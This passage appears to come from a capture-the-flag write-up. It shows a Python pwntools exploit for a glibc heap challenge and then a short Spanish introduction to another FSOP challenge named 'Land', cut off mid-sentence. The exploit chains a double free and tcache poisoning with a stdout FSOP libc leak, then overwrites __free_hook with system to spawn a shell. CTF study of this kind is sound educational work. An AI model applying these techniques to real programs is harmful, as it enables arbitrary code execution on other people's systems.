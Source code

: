 ```python
#delete victim again after editing the libc address, this time to get a pointer on the heap
delete(victim) 
# we repeat this twice so the address will be the same, so we can have a fix value to only modify one nibble
#editor
#deletc c again to edit 
delete(c)
c = add(0xb8, p64(0)*19 +p64(0xa1)+p64(0)+p16(0)) 
#we can delete the victim again to have a double free scenario again
delete(victim)
#add the vitim modifying the last nibble
add(0x98, p8(0xc0))
#add anotehr one to make the next one a chunk from the stdout
add(0x98, p64(0xcafebabe))
# request a chunk from the stdout
add(0x98, p64(0xdeadbeef))
# request a chunk from the stdout
## manual call to display stdout to avoid buffering issues with wrapper function
r.sendline(b"1")
r.sendlineafter(b"size :", f"{0x98}".encode())
r.sendafter(b"data :", p64(0xfbad1800)+p64(0)+p64(0)+b"dpladpla"+p16(0))
#bruteforce stuff
r.recvuntil(b"dpladpla")
leak = u64(r.recvline()[8:14].ljust(8, b"\x00"))
log.info(f"leak = {hex(leak)}")
#
##with the leak now we can calculate the base to libc address
libc.address = leak-0x1ed723
log.info(f"libc = {hex(libc.address)}")
## delete the victim again and the editor so we can edit again
delete(c)
delete(victim)
## we edit our victim chunk to point to the free hook
c = add(0xb8, p64(0)*19 +p64(0xa1)+p64(libc.sym.__free_hook) )
##requesting a chunk to write the free hook in the tcache 
add(0x98, p64(0xdeadbeef))
## writing the system address to the free hook
victim = add(0x98, p64(libc.sym.system))
#
##free the guard chunk with the /bin/sh string taht will be pass as argument to the hook
delete(guard)
#========= interactive ====================
r.interactive()
```
# Land

Land es un desafío que cree para que pudiese explotar un FSOP en glibc 2.31 (para que no sea tan difícil uwu), El binario es un binario que escribe a un file stream y luego flushea el buffer, simulando una operación de FSOP, con esto podemos controlar el "flush" sin dificultad y sobreescribir el puntero ya que el binario permite sobreescribir el stream.
Para lekea primero debemos hacer el siguiente FSOP

